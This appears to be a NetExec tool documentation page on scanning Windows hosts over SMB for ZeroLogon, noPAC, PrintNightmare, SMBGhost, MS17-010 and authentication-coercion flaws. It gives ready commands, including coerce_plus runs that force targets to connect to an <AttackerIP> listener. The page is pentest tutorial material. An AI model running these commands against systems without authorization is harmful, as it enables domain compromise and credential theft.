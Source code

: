 ```yaml
---
description: Check if host is vulnerable
---
```


# Scan for Vulnerabilities

## Scan for Vulnerabilities

When you start your internal pentest, these are the first modules you should try:

#### ZeroLogon

```bash
nxc smb <ip> -u '' -p '' -M zerologon
```

#### noPAC

```bash
nxc smb <ip> -u 'user' -p 'pass' -M nopac
```

{% hint style="warning" %}
You need a credential for noPAC vulnerability check.
{% endhint %}

#### PrintNightmare

```bash
nxc smb <ip> -u '' -p '' -M printnightmare
```

#### SMBGhost

```bash
nxc smb <ip> -u '' -p '' -M smbghost
```

#### MS17-010 (Not tested outside LAB environment)

```bash
nxc smb <ip> -u '' -p '' -M ms17-010
```

Or, try them all at once! Just list each one: `-M zerologon -M printnightmare`

## Scan for Coerce Vulnerabilities

You can check for coerce vulnerabilities such as PetitPotam, DFSCoerce, PrinterBug, MSEven and ShadowCoerce using the coerce\_plus module. You can also use credentials to check for these vulnerabilities. By default the LISTENER ip will be set to localhost, so no traffic will appear on the network.

```bash
nxc smb <ip> -u '' -p '' -M coerce_plus
```

If a vulnerability is found, you can set a LISTENER ip to coerce the connection.

```bash
nxc smb <ip> -u '' -p '' -M coerce_plus -o LISTENER=<AttackerIP>
```

To run all exploit methods at once, add the ALWAYS=true option, otherwise it will stop if the underlying RPC connection reports a successful coercion.

```bash
nxc smb <ip> -u '' -p '' -M coerce_plus -o LISTENER=<AttackerIP> ALWAYS=true
```

You can also check for a specific coerce method by specifying it:

```bash
nxc smb <ip> -u '' -p '' -M coerce_plus -o METHOD=PetitPotam
```

{% hint style="success" %}
Instead of using the `METHOD` option, you can use its short form `M`. Similarly, the argument `LISTENER` can be shortened to `L`.

This also applies to the names of the vulnerabilities when specifying a method.

M=p // Invalid, as both petitpotam and printerbug start with ‘p’ so modules gives error

M=pr // Matches printerbug

M=pe // Matches petitpotam

M=dfs // Matches dfscoerce
{% endhint %}

Check out what other modules are available via `nxc <protocol> -L`
